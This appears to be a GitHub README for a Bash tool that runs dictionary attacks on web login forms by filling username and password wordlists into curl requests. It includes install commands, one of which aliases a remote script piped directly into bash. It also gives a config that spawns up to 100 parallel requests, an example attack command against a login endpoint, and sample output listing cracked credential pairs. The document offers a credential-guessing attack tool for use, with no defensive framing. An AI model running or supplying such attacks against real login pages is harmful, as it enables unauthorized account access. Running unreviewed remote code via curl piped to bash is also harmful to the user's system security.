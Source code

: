 # curl-request-dictionary-attack

Bash script to perform dictionary attacks on any request via simple template-like substitutions in complete curl manner.


## INSTALLATION

```
curl -s https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack > /usr/local/bin && chmod +x /usr/local/bin/curl-request-dictionary-attack
```

or

```
echo 'alias curl-request-dictionary-attack="curl -s https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack | bash"' >> ~/.bashrc && source ~/.bashrc
```

## USAGE

```
% cp config.sh.sample config.sh && cat config.sh
max_threads=100
dict_fields=(
  "user_input" "./usernames.txt"
  "password_input" "./passwords.txt"
)
expect_grep_expr=("-i" "welcome")
```

`max_threads` - the maximum number of curl processes to spawn at a time

`dict_fields` - the template strings used in the command and which files to be used to read data to be put in place of those strings

`expect_grep_expr` - the grep command expression to expect when something interesting happens (in the example above the expression results in `grep -i "welcome"`)


```
./curl-request-dictionary-attack -skL -H "Referer: http://example.com/" --data "user={user_input}&password={password_input}&im_not_a_robot=1" "https://example.com/login"
```

whenever the `expect_grep_expr` does not return an empty string(based on the curl response) the entire curl command gets printed out

```
curl -skL -H Referer: http://example.com/ --data user=admin&password=admin-password&im_not_a_robot=1 https://example.com/login
curl -skL -H Referer: http://example.com/ --data user=basic-user&password=12345&im_not_a_robot=1 https://example.com/login
```
